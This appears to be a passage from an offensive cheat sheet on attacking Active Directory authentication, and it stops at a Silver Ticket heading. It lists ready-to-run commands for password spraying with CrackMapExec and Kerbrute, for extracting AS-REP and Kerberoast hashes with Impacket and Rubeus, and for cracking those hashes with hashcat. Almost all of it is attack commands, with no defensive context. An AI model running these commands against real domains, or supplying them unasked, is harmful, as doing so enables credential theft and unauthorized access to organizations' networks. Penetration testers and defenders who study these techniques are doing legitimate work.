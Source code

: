 ### Attacking Active Directory Authentication

#### **Password Spraying with CrackMapExec**

```bash
crackmapexec smb <IP or subnet> -u users.txt -p 'Password123' -d <domain> --continue-on-success  
```

#### **Password Spraying with Kerbrute**

```bash
kerbrute passwordspray -d corp.com users.txt "Password123"  
```

* * *

### AS-REP Roasting

#### **Extracting AS-REP Hashes**

```bash
impacket-GetNPUsers -dc-ip <DC-IP> <domain>/<user>:<pass> -request  
```

#### **Cracking AS-REP Hashes**

```bash
hashcat -m 18200 hashes.txt wordlist.txt --force  
```

* * *

### Kerberoasting

#### **Extracting Kerberoastable Hashes**

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast  
```

#### **Kerberoasting with Impacket**

```bash
impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request  
```

#### **Cracking Kerberoasted Hashes**

```bash
hashcat -m 13100 hashes.txt wordlist.txt --force  
```

* * *

### Silver Ticket Attack

#### **Extracting Hash of SPN User with Mimikatz**
